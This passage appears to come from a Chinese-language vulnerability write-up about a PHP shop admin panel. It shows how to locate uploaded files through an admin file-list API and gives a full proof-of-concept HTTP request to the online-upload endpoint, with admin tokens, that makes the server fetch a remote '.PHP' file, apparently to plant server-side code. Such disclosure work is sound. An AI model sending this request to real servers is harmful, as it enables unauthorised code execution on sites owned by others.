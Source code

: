 也可以通过观察  
`http://localhost:45600/adminapi/file/file?pid=&real_name=&page=1&limit=18`  
接口返回的数据中找到文件访问路径。

![document_image_rId30.png](assets/1703831601-cd71c8df6aafc99c04cf566352672632.png)

POC 数据包：

```php
POST /adminapi/file/online_upload HTTP/1.1
Host: localhost:45600
Content-Length: 55
sec-ch-ua: "Not A(Brand";v="24", "Chromium";v="110"
Accept: application/json, text/plain, */*
Content-Type: application/json;charset=UTF-8
Authori-zation: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJwd2QiOiIxZDlmMjExMGZlOTgzM2U1MTQ4MmQyZjdkMTFmZjFlNiIsImlzcyI6ImxvY2FsaG9zdDo0NTYwMCIsImF1ZCI6ImxvY2FsaG9zdDo0NTYwMCIsImlhdCI6MTY5NDA1NjkyMCwibmJmIjoxNjk0MDU2OTIwLCJleHAiOjE2OTY2NDg5MjAsImp0aSI6eyJpZCI6MSwidHlwZSI6ImFkbWluIn19.6gzs6MXyxnHOEckxP4ejuoNJxLpMcT3MdyLRPBAkJ8k
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.178 Safari/537.36
sec-ch-ua-platform: "Windows"
Origin: http://localhost:45600
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost:45600/admin/marketing/live/add_live_room
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: cb_lang=zh-cn; PHPSESSID=23b220209fa9cd4879a5173dc74c2bba; uuid=1; token=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJwd2QiOiIxZDlmMjExMGZlOTgzM2U1MTQ4MmQyZjdkMTFmZjFlNiIsImlzcyI6ImxvY2FsaG9zdDo0NTYwMCIsImF1ZCI6ImxvY2FsaG9zdDo0NTYwMCIsImlhdCI6MTY5NDA1NjkyMCwibmJmIjoxNjk0MDU2OTIwLCJleHAiOjE2OTY2NDg5MjAsImp0aSI6eyJpZCI6MSwidHlwZSI6ImFkbWluIn19.6gzs6MXyxnHOEckxP4ejuoNJxLpMcT3MdyLRPBAkJ8k; expires_time=1696648920; WS_ADMIN_URL=ws://localhost:45600/notice; WS_CHAT_URL=ws://localhost:45600/msg
Connection: close

{"pid":"","images":["http://localhost:19000/help.PHP"]}
```
